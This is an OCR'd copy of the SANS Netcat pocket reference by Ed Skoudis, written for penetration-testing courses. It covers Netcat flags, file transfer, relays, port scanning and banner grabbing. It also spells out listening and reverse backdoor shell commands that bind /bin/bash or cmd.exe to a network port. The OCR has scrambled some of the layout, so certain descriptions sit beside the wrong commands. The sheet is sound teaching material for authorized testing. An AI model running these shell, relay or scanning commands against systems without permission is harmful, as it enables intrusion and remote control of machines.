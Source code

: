 #  Netcat

To start, enter a temporary directory where we will create .bat files:

C:\> cd c:\temp

Listener-to-Client Relay: 

C:\> echo nc [TargetIPaddr][port] > relay.bat

C:\> nc –l –p [LocalPort] –e relay.bat

Create a relay that sends packets from the local port [LocalPort] to a Netcat Client connected to [TargetIPaddr] on port [port]

Listener-to-Listener Relay:

C:\> echo nc –l –p [LocalPort_2] > relay.bat

C:\> nc –l –p [LocalPort_1] –e relay.bat

Create a relay that will send packets from any connection on [LocalPort_1] to any connection on [LocalPort_2]

Client-to-Client Relay:

C:\> echo nc [NextHopIPaddr][port2] > relay.bat

C:\> nc [PreviousHopIPaddr][port] –e relay.bat

Create a relay that will send packets from the connection to [PreviousHopIPaddr] on port [port] to a Netcat Client connected to [NextHopIPaddr] on  port [port2] 

Netcat Command Flags

Cheat Sheet

$ nc [options][TargetIPaddr] [port(s)]

The [TargetIPaddr] is simply the other side’s IP address or domain name. It is required in client mode of course (because we have to tell the client  where to connect), and is optional in listen mode.

-l: Listen mode (default is client mode)

-L: Listen harder (supported only on Windows version of Netcat). This option makes Netcat a persistent listener which starts listening again after a client disconnects

-u: UDP mode (default is TCP)
-p: Local port (In listen mode, this is port listened on. In client mode, this is source port for all packets sent)
-e: Program to execute after connection occurs, connecting STDIN and STDOUT to the program
-n: Don’t perform DNS lookups on names of machines on the other side
-z: Zero-I/O mode (Don’t send any data, just emit a packet without payload)
-wN: Timeout for connects, waits for N seconds after closure of STDIN. A Netcat client or listener with this option will wait for N seconds to make a connection. If the connection doesn’t happen in that time, Netcat stops running.
-v: Be verbose, printing out messages on Standard Error, such as when a connection occurs
-vv: Be very verbose, printing even more details on Standard Error



By Ed Skoudis
POCKET REFERENCE GUIDE
http://www.sans.org

File Transfer

Push a file from client to listener:
$ nc –l -p [LocalPort] > [outfile]

Listen on [LocalPort], store results in [outfile]
$ nc –w3 [TargetIPaddr][port] < [infile]

Push [infile] to [TargetIPaddr] on [port]

Pull file from listener back to client:
$ nc –l -p [LocalPort] < [infile]

Listen on [LocalPort], prep to push [infile]

$ nc –w3 [TargetIPaddr][port] > [outfile]

Connect to [TargetIPaddr] on [port] and retrieve [outfile]

TCP Port Scanner

Port scan an IP Address:
`$ nc –v –n –z –w1 [TargetIPaddr][start_port]-[end_port]`

Attempt to connect to each port in a range from [end_port] to [start_port] on IP Address [TargetIPaddr] running verbosely (-v on Linux, - vv on Windows), not resolving names (-n), without sending any data (-z), and waiting no more than 1 second for a connection to occur (-w1) The randomize ports (-r) switch can be used to choose port numbers randomly in the range

TCP Banner Grabber

Grab the banner of any TCP service running on an IP

Address from Linux:
`$ echo "" | nc –v –n –w1 [TargetIPaddr][start_port]-[end_port]`

Attempt to connect to each port in a range from
[end_port] to [start_port] on IP Address
[TargetIPaddr] running verbosely (-v), not
resolving names (-n), and waiting no more than 1
second for a connection to occur (-w1). Then send a
blank string to the open port and print out any
banner received in response
Add –r to randomize destination ports within the
range
Add –p [port] to specify a source port for the
scan
Backdoor Shells
Listening backdoor shell on Linux:
$ nc –l –p [LocalPort] –e /bin/bash
Listening backdoor shell on Windows:
C:\> nc –l –p [LocalPort] –e cmd.exe
Netcat Relays on Linux
To start, create a FIFO (named pipe) called
backpipe:
$ cd /tmp
$ mknod backpipe p
Listener-to-Client Relay:
$ nc –l –p [LocalPort] 0<backpipe | nc
[TargetIPaddr] [port] | tee backpipe
Create a relay that sends packets from the local port
[LocalPort] to a Netcat client connected to
[TargetIPaddr] on port [port]
Listener-to-Listener Relay:
$ nc –l –p [LocalPort_1] 0<backpipe |
nc –l –p [LocalPort_2] | tee backpipe
Create a relay that sends packets from any
connection on [LocalPort_1] to any connection
on [LocalPort_2]
Create a shell on local port [LocalPort] that can
then be accessed using a fundamental Netcat client Client-to-Client Relay:
$ nc [PreviousHopIPaddr] [port]
0<backpipe | nc [NextHopIPaddr]
[port2] | tee backpipe
Reverse backdoor shell on Linux:
$ nc [YourIPaddr] [port] –e /bin/bash
Reverse backdoor shell on Windows:
C:\> nc [YourIPaddr] [port] –e cmd.exe Create a relay that sends packets from the
connection to [PreviousHopIPaddr] on port

[port] to a Netcat client connected to

[NextHopIPaddr] on port [port2]
Create a reverse shell that will attempt to connect to
[YourIPaddr] on local port [port]. This shell
can then be captured using a fundamental nc listener

Purpose

This cheat sheet provides various tips for
using Netcat on both Linux and Unix,
specifically tailored to the SANS 504, 517,
and 560 courses. All syntax is designed for
the original Netcat versions, released by
Hobbit and Weld Pond. The syntax here
can be adapted for other Netcats, including
ncat, gnu Netcat, and others.
Fundamentals
Fundamental Netcat Client:
$ nc [TargetIPaddr] [port]
Connect to an arbitrary port [port] at IP Address
[TargetIPaddr]
Fundamental Netcat Listener:
$ nc –l -p [LocalPort]
Create a Netcat listener on arbitrary local port
[LocalPort]
Both the client and listener take input from STDIN
and send data received from the network to STDOUT